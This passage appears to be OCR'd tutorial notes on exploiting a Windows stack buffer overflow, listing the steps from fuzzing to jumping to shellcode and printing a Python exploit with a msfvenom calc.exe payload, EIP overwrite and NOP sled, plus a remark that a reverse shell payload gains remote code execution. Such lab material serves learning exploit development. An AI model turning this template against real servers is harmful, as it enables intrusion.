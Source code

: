 - Fuzzing Parameters
- Controlling EIP
- Identifying Bad Characters
- Finding a Return Instruction
- Jumping to Shellcode

Next, we need to determine the offset to write to the EIP. We do that by sending the data in the same way as we have been fuzzing the parameters. Then, check the EIP can be override with different value, then find bad characters, then find a good return address and finally generate the shellcode.

The final exploit will be something like:

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'
    buf = b""
    ...SNIP...
    buf += b"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

    offset = 1052
    buffer = b"A"*offset
    eip = pack('<L', 0x0069D2E5)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(payload)
    s.close()

exploit()
```

We can change the payload to a reverse shell one and change the IP and port to effectively gain code execution over the remote server.
